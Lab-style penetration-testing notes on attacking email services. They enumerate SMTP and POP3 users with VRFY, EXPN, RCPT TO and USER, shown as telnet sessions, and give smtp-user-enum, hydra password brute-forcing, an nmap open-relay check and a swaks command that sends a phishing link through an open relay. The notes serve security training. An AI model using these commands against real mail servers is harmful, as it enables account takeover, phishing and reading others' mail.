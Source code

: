 | **Port**  | **Service**                                                                | **Used to Send/Receive**          |
| --------- | -------------------------------------------------------------------------- | --------------------------------- |
| `TCP/25`  | SMTP Unencrypted                                                           | Sending emails only               |
| `TCP/143` | IMAP4 Unencrypted                                                          | Receiving emails                  |
| `TCP/110` | POP3 Unencrypted                                                           | Receiving emails                  |
| `TCP/465` | SMTP Encrypted                                                             | Sending emails securely (SSL/TLS) |
| `TCP/587` | SMTP Encrypted/[STARTTLS](https://en.wikipedia.org/wiki/Opportunistic_TLS) | Sending emails with encryption    |
| `TCP/993` | IMAP4 Encrypted                                                            | Receiving emails securely         |
| `TCP/995` | POP3 Encrypted                                                             | Receiving emails securely         |
User Enumeration:

`VRFY` this command instructs the receiving SMTP server to check the validity of a particular email username. The server will respond, indicating if the user exists or not. This feature can be disabled.

```bash
telnet 10.10.110.20 25

Trying 10.10.110.20...
Connected to 10.10.110.20.
Escape character is '^]'.
220 parrot ESMTP Postfix (Debian/GNU)

VRFY root

252 2.0.0 root

VRFY www-data

252 2.0.0 www-data

VRFY new-user

550 5.1.1 <new-user>: Recipient address rejected: User unknown in local recipient table
```

`EXPN` is similar to `VRFY`, except that when used with a distribution list, it will list all users on that list. This can be a bigger problem than the `VRFY` command since sites often have an alias such as "all."

```bash
telnet 10.10.110.20 25

Trying 10.10.110.20...
Connected to 10.10.110.20.
Escape character is '^]'.
220 parrot ESMTP Postfix (Debian/GNU)

EXPN john

250 2.1.0 john@inlanefreight.htb

EXPN support-team

250 2.0.0 carol@inlanefreight.htb
250 2.1.5 elisa@inlanefreight.htb
```

`RCPT TO` identifies the recipient of the email message. This command can be repeated multiple times for a given message to deliver a single message to multiple recipients.

```bash
telnet 10.10.110.20 25

Trying 10.10.110.20...
Connected to 10.10.110.20.
Escape character is '^]'.
220 parrot ESMTP Postfix (Debian/GNU)


MAIL FROM:test@htb.com
it is
250 2.1.0 test@htb.com... Sender ok

RCPT TO:julio

550 5.1.1 julio... User unknown

RCPT TO:kate

550 5.1.1 kate... User unknown

RCPT TO:john

250 2.1.5 john... Recipient ok
```

We can also use the `POP3` protocol to enumerate users depending on the service implementation. For example, we can use the command `USER` followed by the username, and if the server responds `OK`. This means that the user exists on the server.


```bash
telnet 10.10.110.20 110

Trying 10.10.110.20...
Connected to 10.10.110.20.
Escape character is '^]'.
+OK POP3 Server ready

USER julio

-ERR

USER john

+OK
```

Summary:

| **Command** | **Function**                                                                                                                   |
| ----------- | ------------------------------------------------------------------------------------------------------------------------------ |
| VRFY        | Verifies the existence of a specific email address. Returns the full address if valid, otherwise indicates non-existence.      |
| EXPN        | Expands a mailing list or group. Returns the members of the mailing list if available, or an error if the list does not exist. |
| **RCPT TO** | Specifies the recipient(s) of an email in the SMTP transaction. Used to define individual or multiple recipients.              |

Automatite Process:

```bash
smtp-user-enum -M RCPT -U userlist.txt -d inlanefreight.htb -t 10.129.203.7
```

Once users have been gather we can brute force the password:

```bash
hydra -l marlin@inlanefreight.htb -P passwords.list -f 10.129.203.12 pop3 -VV -F -I -t 64
```

Open Relay:

```bash
nmap -p25 -Pn --script smtp-open-relay 10.10.11.213
```

Send Email to Open Relay:

```bash
swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Company Notification' --body 'Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/' --server 10.10.11.213
```

Connect to POP3 - Retreieve Emails

Connect and enter username and password:

```bash
telnet 10.129.203.12 110
Trying 10.129.203.12...
Connected to 10.129.203.12.
Escape character is '^]'.
+OK POP3 server ready
USER john.doe
+OK User name accepted, password please
PASS mypassword123
+OK Mailbox locked and ready
```

Check Messages:

```bash
LIST
+OK 1 messages (601 octets)
1 601
```

Retrieve Message 1:

```bash
RETR 1
```

